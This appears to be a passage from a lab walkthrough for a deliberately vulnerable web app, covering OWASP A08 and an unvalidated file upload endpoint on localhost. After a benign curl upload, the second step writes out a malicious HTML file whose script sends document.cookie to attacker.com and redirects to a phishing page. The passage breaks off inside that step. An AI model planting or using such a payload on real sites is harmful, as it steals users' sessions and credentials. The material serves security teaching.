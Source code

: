 
## A08 - Software and Data Integrity Failures

### 🎯 Overview

**Software and data integrity failures** relate to code and infrastructure that doesn't protect against integrity violations. This includes accepting file uploads without validation, using unverified CDNs, and auto-update mechanisms without integrity checks.

### 🔍 Vulnerability Location

- `/wcorp/api/upload` - File upload endpoint
- `/uploads/` - Publicly accessible uploads directory
- No file type validation
- No file size limits
- No malware scanning

### 📖 How It Works

The application accepts file uploads without proper validation, allowing attackers to upload malicious files, bypass file type restrictions, or perform path traversal attacks.

### 🔓 Step-by-Step Exploitation

#### Step 1: Basic File Upload Test

```bash
# Create a test file
echo "Hello World" > test.txt

# Upload the file
curl -X POST http://localhost:3000/api/upload \
  -H "Authorization: Bearer <token>" \
  -F "file=@test.txt"
```

**Response:**
```json
{
  "success": true,
  "filename": "test.txt",
  "path": "/uploads/test.txt"
}
```

#### Step 2: Upload Malicious HTML File

```bash
# Create malicious HTML with JavaScript
cat > malicious.html << 'EOF'
<!DOCTYPE html>
<html>
<head><title>Malicious</title></head>
<body>
<h1>You've been hacked!</h1>
<script>
  // Steal cookies
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
  
  // Redirect to phishing site
  setTimeout(() => {
    window.location = 'https://attacker.com/phishing';
  }, 2000);
</script>
</body>
</html>
```